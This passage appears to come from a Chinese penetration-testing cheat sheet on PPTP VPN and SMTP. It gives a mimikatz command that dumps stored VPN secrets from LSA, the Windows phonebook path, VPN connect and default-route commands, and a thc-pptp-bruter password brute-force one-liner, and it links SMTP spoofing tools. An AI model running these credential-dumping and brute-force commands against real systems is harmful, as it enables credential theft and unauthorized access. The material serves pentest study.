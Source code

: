 **相关文章**
- [渗透技巧——PPTP口令的获取与爆破](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-PPTP%E5%8F%A3%E4%BB%A4%E7%9A%84%E8%8E%B7%E5%8F%96%E4%B8%8E%E7%88%86%E7%A0%B4/)

**获得PPTP 口令**

Windows系统拨号和宽带连接的配置信息存储在固定位置，路径如下： `%APPDATA%\Microsoft\Network\Connections\Pbk\rasphone.pbk` 查看该文件即可获得 PPTP 连接的配置信息，包括服务器 IP，不包含连接用户名和口令

```
mimikatz.exe privilege::debug token::elevate lsadump::secrets exit
```

**windows 命令行下连接 PPTP VPN**
```
rasdial "VPN Connection" username pass

# 关闭连接
rasphone -h "VPN Connection"
```

**kali 连接 PPTP VPN**
```bash
pptpsetup --create vpn --server xx.xx.xx.xx --username username --password pass --encrypt --start

# 将默认路由表修改为远程
route del default
route add default gw xx.xx.xx.xx
```

**暴力破解 PPTP 口令**

- 相关工具
    - [BlackArch/thc-pptp-bruter](https://github.com/BlackArch/thc-pptp-bruter) - kali 默认自带
        ```
        cat wordlist | thc-pptp-bruter -u username xx.xx.xx.xxx
        ```
    - [pptp_password_hack.py](https://github.com/3gstudent/Homework-of-Python/blob/master/pptp_password_hack.py)

---

## SMTP

**描述**

SMTP 为邮件协讫,默认端口 25.经常用来邮箱伪造,钓鱼攻击.

**相关文章**
- [SMTP 协议 25 端口渗透测试记录](https://www.sqlsec.com/2017/08/smtp.html)

**相关工具**
- [Rvn0xsy/SMTP-NC](https://github.com/Rvn0xsy/SMTP-NC) - SMTP Netcat , test SMTP protocol

**邮件检测**
- SPF : http://spf.myisp.ch/
- MX : https://toolbox.googleapps.com/apps/checkmx
- DMARC : https://www.agari.com/insights/tools/DMARC
